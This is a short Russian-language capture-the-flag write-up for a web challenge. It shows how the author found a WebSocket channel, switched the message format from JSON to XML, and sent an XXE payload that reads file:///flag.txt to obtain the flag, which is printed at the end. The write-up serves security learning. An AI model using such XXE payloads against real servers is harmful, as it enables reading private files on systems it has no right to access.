



# Web-1

Протестировав интерфейс сайта, заметим во вкладке *Network* коннект веб сокета с сервером, по котору происходит передача данных:



Просмотрев исходниый код *script.js* видим передачу данных JSON с предшифровкой и последующей отправкой на сервер:

```js
...
let data = JSON.stringify(encrypted({format: 'json', data: {countries: countries, startdate: startDate, enddate: endDate, resttype: restType}}));
socket.send(data);
...
```

Попробуем изменить формат передачи данных на XML, и посмотрим, что ответи сервер:

```js

socket.addEventListener('message', (event) => {
    ...
    console.log(event.data);
    ...
}

function calculate() {
    ...
    let data = JSON.stringify(encrypted({format: 'xml', data: {countries: countries, startdate: startDate, enddate: endDate, resttype: restType}}));
    socket.send(data);
}
```



Отлично, сервер принимает XML, подготовим и отправим payload, использующий уязвимость XXE.

```
{format: 'xml', data: '<!--?xml version="1.0" ?--><!DOCTYPE replace [<!ENTITY evil SYSTEM "file:///flag.txt"> ]><data><countries>&evil;</countries><startdate>x</startdate><enddate>x</enddate><resttype>1</resttype></data>'}
```

Атака прошла успешно, флаг получен



Ответ: nto{w3bs0ck3ts_plu5_xx3_1s_l0v3}
